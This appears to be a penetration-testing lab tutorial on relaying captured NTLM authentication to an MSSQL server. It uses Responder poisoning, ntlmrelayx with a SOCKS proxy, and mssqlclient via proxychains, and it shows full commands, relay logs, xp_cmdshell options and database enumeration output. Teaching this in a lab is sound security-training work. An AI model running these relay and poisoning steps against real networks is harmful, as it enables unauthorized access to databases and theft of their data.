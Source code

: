# NTLM Relay over MSSQL

From the previous enumeration we have performed against the 172.16.117.0/24 network, we identified that 172.16.117.60 has the `MSSQL` service running. We can use `ntlmrelayx` to target the `MSSQL` service on 172.16.117.60 and establish an authenticated session so that we can access them using `mssqlclient.py` via `proxychains`.

[mssqlclient.py](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) is a Python script from the impacket family, that implements [Tabular Data Stream Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/b46a581a-39de-4745-b076-ec4dbb7d13ec) ( `TDS`) and [SQL Server Resolution Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/mc-sqlr/1ea6e25f-bff9-4364-ba21-5dc449a601b7) ( `SSRP`) to connect to `MSSQL` database servers and query data from them.

As we saw with `SMB`, there is the possibility that a user might mistype a `UNC`, resulting in broadcast messages via LLMNR or NBT-NS. If we have `Responder` running, we can poison the responses and redirect the authentication to our machine. Instead of abusing the SMB protocol, we will relay the connection we receive to a `MSSQL Server`.

### SOCKS Proxy
To abuse this protocol, we will use `ntlmrelayx`, `mssqlclient`, and `Responder`:

- `ntlmrelayx` will allow us to relay the request to the target.
- `mssqlclient` will be used to interact with the SQL database.
- `Responder` will poison any user request and redirect it to our attack host at `172.16.117.30`.

Let’s start by running `ntlmrelayx` with the `-socks` option, targeting the `mssql` service of the target machine `172.16.117.60`:

```
sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>

[*] Servers started, waiting for connections
```

Notice how we are using the `mssql://` scheme in the target defintion `-t mssql://172.16.117.60`; this makes `ntlmrelayx` to relay `NTLM` over `mssql` to the relay target, instead of the default `SMB` protocol:

**Note:** Remember that we can also specify the user that we want to relay the authentication of using `named targets` in the target definition: `scheme://DOMAIN\\USER@TARGETIP`.

Afterward, we will run `Responder` after setting its `SMB` server to `Off`:

```
python3 Responder.py -I ens192
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [On]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [On]
    <SNIP>

[+] Listening for events...

<SNIP>
```

Once `Responder` poisons the broadcast traffic, we will notice that `ntlmrelayx` relays the `SMB NTLM` authentication from 172.16.117.3 over `MSSQL` on 172.16.117.60, which is one type of `cross-protocol relaying`, as inferred from the message `[*] SMBD-Thread-10: Received connection from 172.16.117.3, attacking target mssql://172.16.117.60`:

```
sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>
ntlmrelayx>
[*] SMBD-Thread-10: Received connection from 172.16.117.3, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as INLANEFREIGHT/NPORTS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](1433) to active SOCKS connection. Enjoy
```

> [!NOTE]
>  For any `post-relay` attacks targeting `MSSQL`, you must switch to the `root` user by using the command `sudo su -` before running `ntlmrelayx`. Moreoever, we can always try to restart `ntlmrelayx` and `Responder` if our NTLM Relay attacks do not work.

**Note:** It is important to note that if we attack a computer and receive authentication from it, we cannot relay its authentication because Windows patched the `NTLM self-relay` attack on all modern systems.

In this example, `INLANEFREIGHT/NPORTS` user also initiates authentication from `172.16.117.60`, which may cause `ntlmrelayx` to stop receiving new requests from other IPs. We can avoid this by either turning off the HTTP server using the `--no-http-server` option to prevent NPORTS’s HTTP connections, editing the `Responder.conf` to not respond to requests from 172.16.117.60 or using `-tf` instead of a single target, to enable `multi-relay`.

Then, we can use `ntlmrelayx`’s interactive command `socks` to display the authenticated sessions available for use on the SOCKS server:

```
ntlmrelayx> socks

Protocol  Target         Username              AdminStatus  Port
--------  -------------  --------------------  -----------  ----
MSSQL     172.16.117.60  INLANEFREIGHT/NPORTS  N/A          1433
```

Now we will tunnel `mssqlclient.py` via `proxychains` to connect to `MSSQL` on 172.16.117.60 as `INLANEFREIGHT\NPORTS`. The option `-windows-auth` forces Windows authentication instead of the default SQL authentication, while `-no-pass` prevents `mssqclient.py` from prompting us for a password, as we will abuse the authenticated session established by `ntlmrelayx`:

```
proxychains -q mssqlclient.py INLANEFREIGHT/[email protected] -windows-auth -no-pass

Impacket v0.11.0 - Copyright 2023 Fortra

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (INLANEFREIGHT\nports  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```

We then can query the `MSSQL` server and exfiltrate the data within it; for example, we can enumerate all the databases available using `enum_db`:

```
SQL (INLANEFREIGHT\nports  dbo@master)> enum_db

name            is_trustworthy_on
-------------   -----------------
master                          0
tempdb                          0
model                           0
msdb                            1
development01                   0
```

### Query Execution

Another option is to execute `MSSQL` queries directly using the `-q` option:
```
sudo ntlmrelayx.py -t mssql://INLANEFREIGHT\\[email protected] -smb2support -q "SELECT name FROM sys.databases;"

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>

[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.16.117.3, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as INLANEFREIGHT/NPORTS SUCCEED
[*] Executing SQL: SELECT name FROM sys.databases;
name
-------------
master
tempdb
model
msdb
development01
<SNIP>
```